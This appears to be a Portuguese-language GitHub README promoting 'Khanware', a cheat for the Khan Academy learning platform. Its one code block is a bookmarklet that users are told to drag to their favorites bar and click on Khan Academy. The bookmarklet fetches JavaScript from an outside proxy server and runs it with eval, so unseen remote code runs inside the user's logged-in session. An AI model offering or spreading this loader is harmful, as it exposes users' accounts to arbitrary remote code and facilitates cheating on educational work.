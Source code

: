 <div align="center">

## ✨ Cheat para a plataforma Khan Academy!

### 🔓 Como usar:

1 - Pressione CTRL + SHIFT + B.

2 - Selecione todo o conteudo do bloco abaixo.

3 - Arraste para a barra de favoritos.

4 - Abra o [Khan Academy](https://pt.khanacademy.org/) e clique no bookmark.

```js
javascript: fetch('https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03',).then(t => t.text()).then(eval)
```

<br><br>

### _🌿 Get good, get Khanware._

**O Melhor cheat de KhanAcademy!**

[Instagram](https://www.instagram.com/_khanware/)

[TikTok](https://www.tiktok.com/@_khanware)
